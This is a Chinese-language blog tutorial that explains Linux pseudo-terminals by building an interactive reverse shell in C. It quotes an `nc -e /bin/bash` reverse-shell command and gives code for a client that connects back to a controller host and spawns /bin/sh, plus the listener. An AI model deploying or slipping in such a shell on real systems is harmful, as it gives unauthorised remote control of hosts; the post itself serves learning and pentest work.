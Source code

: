 +++
title = "写一个可交互的反弹 Shell"
date = 2022-05-02T19:19:57+08:00
[taxonomies]
tags = ["linux"]
+++

在网上能看到一堆的反弹 Shell 方法，最常见的就是先用 `nc -e /bin/bash $控制机IP $控制机端口` 弹出一个 Shell，然后再用 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 这样来升级成交互式 Shell。这样的话得保证环境里有 nc + python，或者得在被控机上下载多个文件。这样的话，还不如直接自己写一个 Shell 呢 233。

## “可交互 Shell” 的原理

现在常见的“终端模拟器”，例如 KDE 的 Konsole, MACos 上的 iterm，服务器上的 SSH，都是使用 "pty" 来实现的。而我们反弹的 Shell 则不一样，所以无法交互。

而 pty 则是模拟终端的设备。平时使用的终端模拟器是和 pty master 进行沟通，而里面的 shell 是和 pty slave 进行沟通，两者通过 pty 进行沟通。

```txt
终端模拟器 <=> | pty master | pty | pty slave | <=> shell
```

所以我们的实现也很简单，通过 socket 将被控端的 master 和控制端连接起来就好了。

```txt
终端模拟器 <=> 控制端 <=(socket 通信)=> 被控端 <=> | pty master | pty | pty slave | <=> shell
```

## 代码实现

首先是导入相关文件，"pty.h" 包含 pty 相关函数的定义，而 "select.h" 则是用来处理异步通信的。

```c
#include <pty.h>
#include <sys/select.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"
```

被控端代码很简单，通过传入的 `host` 和 `port` 创建 socket 连接，然后通过 `forkpty` 创建 pty，在父进程中进行 socket 和子进程中的通信。

需要注意的是 `forkpty` 函数，在 FreeBSD 的 `man` 手册的说明如下

```txt
The  forkpty()  function  combines  openpty(),  fork(2),  and  login_tty() to create a new
process operating in a pseudoterminal.  A file descriptor referring to master side of  the
pseudoterminal  is  returned  in amaster.  If name is not NULL, the buffer it points to is
used to return the filename of the slave.  The termp and winp arguments, if not NULL, will
determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

简单翻译就是创建一对 pty，并且 fork 出子进程，然后将 master fd 和 pty 连接起来，将子进程的输入和输出和 slave fd 连接起来。这样的话，父进程只要通过 master fd 就可以和处于 pty slave 处的子进程进行沟通。

```c
int main(int argc, char **argv, char **envp) {
  if (argc < 3) {
    printf("Usage: %s [host] [port]\n", argv[0]);
    return -1;
  }
  int port = atoi(argv[2]);
  int socket_fd = 0, master_fd = 0;
  if ((socket_fd = get_socket_connect(argv[1], port)) <= 0) {
    return -2;
  }
  // Use forkpty to handle communication between pty master and socket
  int pid = forkpty(&master_fd, NULL, NULL, NULL);
  if (pid < 0) {
    return -3;
  } else if (pid != 0) {
    // Parent
    copy_loop(master_fd, socket_fd);
  } else {
    // Child
    execve("/bin/sh", NULL, NULL);
    exit(0);
  }
  return 0;
}
```

下面的代码则是在两个 fd 之间互相复制内容。通过 `select` 函数判断哪个 fd 可读，然后将可读 fd 里的内容输出到另一个 fd 里。

```c
static int copy_loop(int fd1, int fd2) {
  plog("%d, %d", fd1, fd2);
  for (;;) {
    fd_set set;
    FD_ZERO(&set);
    FD_SET(fd1, &set);
    FD_SET(fd2, &set);
    if (select(max(fd1, fd2) + 1, &set, NULL, NULL, NULL) <= 0) {
      return -2;
    }
    int read_fd = 0, write_fd = 0;
    if (FD_ISSET(fd1, &set)) {
      read_fd = fd1;
      write_fd = fd2;
    } else if (FD_ISSET(fd2, &set)) {
      read_fd = fd2;
      write_fd = fd1;
    }
    int read_bytes = copy_data(read_fd, write_fd);
    if (read_bytes < 0) {
      return read_bytes;
    }
  }
}
```

而控制端的代码看起来会比较奇怪。首先是打开了 `/proc/self/fd/0`，可以看到这是指向了 `/dev/pts/1`，即打开当前的 pty。

```bash
~/d/chenx6.github.io > ls -la /proc/self/fd
总用量 0
dr-x------ 2 chenx chenx  0  5月  2 19:47 .
dr-xr-xr-x 9 chenx chenx  0  5月  2 19:47 ..
lrwx------ 1 chenx chenx 64  5月  2 19:47 0 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 1 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 2 -> /dev/pts/1
lr-x------ 1 chenx chenx 64  5月  2 19:47 3 -> /proc/1091/fd
lr-x------ 1 chenx chenx 64  5月  2 19:47 51 -> anon_inode:inotify
```

然后是终端的设置。对 `c_lflag` 本地模式进行设置，设置为不回显，uncanonical mode。然后是对 `c_cc` 特殊字符设置不处理 ”^C / ^Z / ^\“。

最后就是创建 socket 连接，复制数据(和被控端类似，区别请见末尾的文件)。当复制结束时则恢复回原本的终端设置。

```c
#include <arpa/inet.h>
#include <fcntl.h>
#include <pty.h>
#include <sys/select.h>
#include <sys/types.h>
#include <termios.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"

int main() {
  // PTY
  int pty_fd = open("/proc/self/fd/0", O_RDWR);
  struct termios terminal, origin_terminal;
  tcgetattr(pty_fd, &terminal);
  origin_terminal = terminal;
  // turn off echo, uncanonical mode
  terminal.c_lflag &= ~ECHO;
  terminal.c_lflag &= ~ICANON;
  // Don't handle ^C / ^Z / ^\
  terminal.c_cc[VINTR] = 0;
  terminal.c_cc[VQUIT] = 0;
  terminal.c_cc[VSUSP] = 0;
  tcsetattr(pty_fd, TCSANOW, &terminal);

  // Socket
  int listen_fd = get_socket_listen("0.0.0.0", 8888);
  socklen_t s;
  struct sockaddr accepted_addr;
  int accepted_fd = accept(listen_fd, &accepted_addr, &s);
  copy_loop(accepted_fd);
  tcsetattr(pty_fd, TCSANOW, &origin_terminal);
  return 0;
}
```

可以看到，很少的代码就能创建一个交互式反弹 Shell，还能复习 UNIX 知识。

完整代码在这：<https://gist.github.com/chenx6/7a51c3cda5c0055a4df5cee66f762fea>

## Refs

- 基于原本的项目，魔改了下，兼容 Python3 <https://github.com/chenx6/python-pty-shells>
- [pseudo-terminal 基础一](https://segmentfault.com/a/1190000019747315)
- [linux select函数解析以及事例](https://zhuanlan.zhihu.com/p/57518857)
